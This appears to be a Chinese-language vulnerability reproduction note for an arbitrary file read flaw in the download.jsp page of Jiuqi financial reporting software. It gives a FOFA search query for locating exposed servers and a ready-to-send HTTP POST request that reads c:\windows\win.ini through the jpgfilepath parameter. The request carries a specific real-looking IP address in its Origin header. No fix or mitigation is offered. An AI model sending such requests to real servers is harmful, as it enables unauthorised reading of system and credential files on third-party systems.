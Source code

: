 # 久其财务报表-download.jsp-任意文件读取漏洞

## 漏洞描述

久其财务报表 download.jsp 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的信息

## 漏洞影响

> [!NOTE]
>
> 久其财务报表

## FOFA

> [!NOTE]
>
> body="/netrep/"

## 漏洞复现

登录路径如下

![image-20210607211411908](久其财务报表-download.jsp-任意文件读取漏洞.assets/1627363091122787.jpg)

发送请求包

```
POST /netrep/ebook/browse/download.jsp HTTP/1.1
Host: 
Content-Length: 55
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://114.251.113.53:7002
Content-Type: application/x-www-form-urlencoded

jpgfilepath=c:\windows\win.ini
```

![image-20210607211527626](久其财务报表-download.jsp-任意文件读取漏洞.assets/1627363091416461.jpg)